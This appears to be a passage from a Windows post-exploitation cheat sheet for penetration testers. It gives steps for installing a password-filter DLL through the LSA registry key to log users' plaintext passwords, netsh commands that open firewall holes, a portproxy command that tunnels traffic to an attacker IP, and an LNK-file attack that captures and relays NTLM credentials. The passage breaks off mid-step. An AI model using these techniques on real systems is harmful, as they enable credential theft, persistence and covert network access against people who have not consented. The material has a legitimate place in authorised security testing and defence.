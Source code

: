 ### Capture Password Changes With Password Filters
To do this one simply needs to take the following steps:
* Create a password filtering DLL (see Didler Steven's example password filterer DLL at [http://blog.didierstevens.com/2010/11/15/password-auditing-with-a-password-filter/](http://blog.didierstevens.com/2010/11/15/password-auditing-with-a-password-filter/) if you want an example of some code you can modify to do this)
* Dump the resulting DLL into %WINDIR%\System32\
* Change HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Notification Packages and add in the location of your DLL as it's value. If the key does not exist, create it first, then set the location as it's value DO NOT ADD IN THE .DLL EXTENSION. (Further details on this stage of the process are detailed at [https://msdn.microsoft.com/en-us/library/windows/desktop/ms721766%28v=vs.85%29.aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms721766%28v=vs.85%29.aspx))
* Reboot the system and wait for passwords to be logged according to the actions defined within your DLL as people change them.
* 
* 

Details on how this works are included in Microsoft's documentation at [https://msdn.microsoft.com/en-us/library/windows/desktop/ms721882%28v=vs.85%29.aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/ms721882%28v=vs.85%29.aspx)

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### LNK (Shortcuts with UNC Icons #61
If you are on an internal penetration test and either exploit a machine or find an open share, you can create an LNK file with an icon that points at a nonexistent share on your attacking machine's IP and use SMB_Relay to replay those credentials to a system in which we've identified by one means or another as an 'important' host to get on.

Attacker uploads malicious LNK file to network share on FILE SHARE

Victim views it on WORKSTATION that initiates an connection to ATTACKER

Attacker relays those authentication attempts to FILE SHARE, gaining code execution if 'Victim' is an admin on FILE SHARE

If not, then NetNTLM are still visible in the logs and can be attempted to crack, or just wait for more people to view the LNK file on the public share, and hope that an admin comes by at some point.

Your mileage will vary based on where you put the LNK file.


 1. Create another file named `enable_ts.reg` containing the contents below. 


